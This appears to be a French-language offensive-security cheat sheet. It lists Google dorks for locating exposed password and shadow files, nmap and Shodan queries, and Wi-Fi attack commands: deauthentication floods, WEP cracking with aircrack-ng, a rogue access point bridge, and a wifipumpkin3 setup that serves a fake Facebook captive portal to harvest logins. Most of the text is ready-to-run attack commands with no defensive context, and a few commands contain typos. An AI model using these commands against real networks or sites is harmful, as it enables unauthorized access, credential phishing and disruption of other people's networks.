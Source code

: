 # Osint
Google opérateur : 
```
m.trix
“Robert Masse”


Inurl: cgi-bin
Allinurl: cgi-bin password
allintitle: "index of/admin"
allintitle: "index of/root"
allintitle: sensitive filetype:doc
allintitle: restricted filetype :mail
allintitle: restricted filetype:doc site:gov
inurlasswd filetype:txt
inurl:admin filetype:db
inurl:iisadmin
inurl:"auth_user_file.txt"
inurl:"wwwroot/*."
top secret site:mil
confidential site:mil
allinurl: winnt/system32/ (get cmd.exe)
allinurl:/bash_history
intitle:"Index of" .sh_history
intitle:"Index of" .bash_history
intitle:"index of" passwd
intitle:"index of" people.lst
intitle:"index of" pwd.db
intitle:"index of" etc/shadow
intitle:"index of" spwd
intitle:"index of" master.passwd
intitle:"index of" htpasswd
intitle:"index of" members OR accounts
intitle:"index of" user_carts OR user_cart
allintitle: "index of/admin"
allintitle: "index of/root"
allintitle: sensitive filetype:doc
allintitle: restricted filetype :mail
allintitle: restricted filetype:doc site:gov
```

# NMAP
```
nmap @ip

scan les 65535 ports existants
nmap @ip -p-

scan OS
nmap @ip -O

@scan vuln
nmap @ip -script vuln

```
# Wireshark
```
tcp.port == 80 || udp.port == 80
ip.dst == 192.168.1.46
```

# Shodan
```
2009 john matherly
Mr Robot
maj h24/7j

os:windows
os:windows country:fr
camera city:paris
webcamxp
port:22
port:3389
title:"hacked by"
```

# WIFI
## Trouver les réseaux wifi accessible

```sh
iwlist wlan0 scanning
```
# Monitoring

## Changer le regulatory domains

```sh
iw reg set BO
``` 
> BO = Bolivie


## Change le tx-power 

```sh
iwconfig wlan0 txpower 30
```

## Carte wifi en mode monitor 
```sh
airmon-ng start wlan0
```

## Réseaux caché 
```sh
airodump-ng wlan0mon
wireshark : filtre = wlan.addr = BSSID
```

## Désauthentification
```sh
aireplay--ng -0 5 - a BSSID --ignore-negative wlan0mon
aireplay-ng -0 1000 -a BSSID_DU_WIFI -c BSSID_DE_LOBJET_CONNECTE --ignore-negative-one wlan0mon
```

## Changer de channel
```sh
iwconfig wlan0mon channel 1
```

## Interaction airodump

raccourci-clavier pour l'affichage de airodump

```
[a]: Select active areas by cycling through these display options: AP+STA; AP+STA+ACK; AP only; STA only

[d]: Reset sorting to defaults (Power)
[i]: Invert sorting algorithm
[m]: Mark the selected AP or cycle through different colors if the selected AP is already marked
[r]: (De-)Activate realtime sorting - applies sorting algorithm everytime the display will be redrawn

[s]: Change column to sort by, which currently includes: First seen; BSSID; PWR level; Beacons; Data packets; Packet rate; Channel; Max. data rate; Encryption; Strongest Ciphersuite; Strongest Authentication; ESSID

[SPACE]: Pause display redrawing/ Resume redrawing

[TAB]: Enable/Disable scrolling through AP list
[UP]: Select the AP prior to the currently marked AP in the displayed list if available
[DOWN]: Select the AP after the currently marked AP if available
```


## Attaque WEP 
```sh
airodump-ng -c 9 --bssid BSSID --write WEPCRACKING wlan0mon
aireplay-ng -3 -b BSSID -h MACHOST --ignore-negative-one wlan0mon
aircrack-ng WEPCRACKING-03.cap 
```


## Rogue AP
```sh
airbase-ng --essid AA1AA2 -c 11 wlan0mon
brctl addbr Wifi-Bridge
brctl addif Wifi-Bridge eth0
brctl addif Wifi-Bridge at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig Wifi-Bridge 192.168.1.55 up 

```

## Rogue AP MITM
```sh
sudo wifipupkin3
help
show
use misc.extra_captiveflask
help
download
proxies
set proxy captiveflask
set captiveflask.facebook true
ap

set ssid WIFI_PUMP 
set interface wlan0
ap 
start

```



